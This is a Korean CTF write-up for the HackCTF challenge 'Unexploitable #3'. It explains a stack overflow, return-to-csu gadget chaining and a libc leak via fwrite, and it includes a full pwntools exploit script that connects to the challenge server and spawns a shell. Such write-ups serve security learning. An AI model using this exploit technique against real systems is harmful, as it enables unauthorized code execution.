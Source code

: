 ```yaml
---
title: "[HackCTF]Unexploitable #3"
date: 2019-12-26
tags: [HackCTF]
categories: [HackCTF]
---
```


이번에는 RTC 응용해서 fwrite로 익스할 수 있는 문제다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-10h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  fwrite("Impossible RTL ha? Nothing for you!\n", 1uLL, 0x24uLL, stdout);
  fgets(&s, 256, stdin);
  return 0;
}
```

메인에서는 리턴 주소 바꿀 수 있다. `gift` 함수를 잘 보면 이번에는 system gadget을 안줬다.

여기서 leak을 할 때 쓸만한 함수는 fwrite 하나밖에 없다. 이를 이용해서 leak을 해주면 된다.

근데 RTC는 인자를 `rdi`, `rsi`, `rdx` 이 3개밖에 못 넣어준다. 

![](https://user-images.githubusercontent.com/32904385/71459626-c38fcb00-27eb-11ea-8be2-fdae1d2716bc.png)

gift함수를 자세히보면 `mov rcx, [rdi] ret` 가젯이 존재했다. 이를 통해서 4번째 인자에 값을 넣어줄 수 있었다.

![](https://user-images.githubusercontent.com/32904385/71471675-a3740200-2813-11ea-9758-b791588b2f58.png)

stdout도 존재하니까 이걸 `mov rcx, [rdi] ret` 를 이용해서 4번째 인자에 넣어주면 된다.

`__libc_csu_init` 영역을 이용해서 `fwrite(fwrite_got,1,6,stdout)`  이런식으로 가젯을 맞춰주면 fwrite을 통해 libc base를 구할 수 있고 메인으로 간다음에 라이브러리 맞춰주고 oneshot gadget구해서 리턴해주면 쉘을 흭득할 수 있다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./Unexploitable_3')
#p = process('./Unexploitable_3')
p = remote('ctf.j0n9hyun.xyz',3034)
libc = e.libc
csu_call = 0x0000000000400720
csu_pop = 0x000000000040073A
mov_ret = 0x0000000000400658 # 00658 mov     rcx, [rdi]
stdout = 0x0000000000601050
prdi = 0x0000000000400743 # pop rdi ; ret

# rdi rsi rdx rcx
def chain(r12,edi,rsi,rdx,ret):
	c = ''
	c += p64(csu_pop)
	c += p64(0)
	c += p64(1)
	c += p64(r12) # call
	c += p64(rdx) # 3
	c += p64(rsi) # 2
	c += p64(edi) # 1
	c += p64(ret)
	return c

payload = '\x90'*0x10
payload += 'realsung'
payload += p64(prdi)
payload += p64(stdout)
payload += p64(mov_ret)
payload += chain(e.got['fwrite'],e.got['fwrite'],1,6,csu_call)
payload += chain(0,0,0,0,e.symbols['main'])
p.sendlineafter('!\n',payload)

libc_base = u64(p.recv(6).ljust(8,'\x00')) - libc.symbols['fwrite']
log.info('libc_base : ' + hex(libc_base))

payload2 = '\x90'*0x10
payload2 += 'realsung'
payload2 += p64(libc_base + 0x45216)
p.sendlineafter('!\n',payload2)

p.interactive()
```


